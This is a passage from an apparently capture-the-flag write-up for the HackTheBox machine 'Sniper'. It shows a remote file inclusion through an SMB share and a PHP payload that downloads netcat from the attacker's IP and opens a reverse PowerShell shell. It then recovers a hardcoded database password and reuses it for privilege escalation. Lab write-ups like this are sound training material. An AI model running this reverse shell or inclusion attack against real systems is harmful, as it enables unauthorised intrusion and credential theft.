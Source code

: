     so:

    1. Create a share **open to everyone.**
    2. Write a PHP code inside a file: `shell.php`
    3. Include it `http://sniper.htb/index.php?page=\\<YOUR_IP>\<SHARE_NAME>\shell.php`

    IMPORTANT NOTE : **Impacket smbserver** works great for transferring files but not so well for running files. so  **samba-server** works well you can install it from the package manager (apt in kali). Thanks to @blaudoom 

    so I created a PHP code that prints "**PHP isn't that cool**"

        <?php
        echo "PHP isn't that cool";
        ?>

    ![/images/Sniper/php-cool.png](/images/Sniper/php-cool.png)

And the PHP code is executed!. Great, now we should include a PHP reverse shell. Here is my php code to get a rev shell

    <?php
    exec('powershell.exe mkdir C:\temp; iwr -outf C:\temp\nc64.exe http://10.10.17.157:9090/nc64.exe C:\temp\mymy.exe 10.10.17.157 8888 -e powershell 2>&1', $output);
    print_r($output);
    ?>

the code is simple it just:

- mkdir **C:\temp**
- download  **nc.exe** from my machine to the **C:\temp** folder. executes nc to connect back to us

![/images/Sniper/shell.png](/images/Sniper/shell.png)

And NOW WE ARE IN!.

### Elevate privileges

### 1- From iusr to Chris 

Now we are **iusr** which has fewer privileges than normal users. so checking the **C:\Users\** we found another user called **Chris.**

So let's go back to enumerate the web applications folder since we have access to it.

![/images/Sniper/user-folder.png](/images/Sniper/user-folder.png)

**user** folder is interesting to us since we couldn't test it more on the webserver, let's see its contents.**

It has many files but db.php may have DB credentials hardcoded into the PHP file.

![/images/Sniper/db-php.png](/images/Sniper/db-php.png)

and we got a password `36mEAhz/B8xQ~2VM` so let's use this password and Chris as username to get more privilege.
